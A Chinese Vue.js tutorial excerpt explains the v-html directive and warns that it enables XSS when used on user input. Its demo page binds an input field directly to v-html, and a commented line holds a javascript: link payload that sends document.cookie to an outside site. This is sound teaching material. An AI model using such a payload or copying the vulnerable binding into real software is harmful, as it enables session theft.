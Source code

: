 ```html
```



#### 1.17.2 v-html指令

v-html指令：

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
   * v-html会替换掉节点中所有的内容，{{xx}}则不会。
   * v-html可以想别html结构。
3. ==严重注意：v-html有安全性问题！!!!==
   * 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   * 一定要在可信的内容上使用v-html,永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>helloworld</title>
    <script src="../js/vue.min.js"></script>
</head>

<body>
    <div id="app">
        <div v-html="tag1"></div>
        <!-- 携带网站的cookie发送到服务器 -->
        <!-- 指令：<a href=javascript:location.href='https://www.baidu.com?'+document.cookie>点击跳转</a><br> -->
        <input type="text" v-model="tag2" placeholder="请输入"/>
        <div v-html="tag2"></div>
    </div>
    <script>
        Vue.config.devtools = true //使用VueTools工具进行调试
        Vue.config.productionTip=false //以阻止 vue 在启动时生成生产提示
        const vm = new Vue({
            el: '#app',
            data: {
                tag1:"<h1>hello world</h1>",
                tag2:""
            }
        })
    </script>
</body>

</html>
```


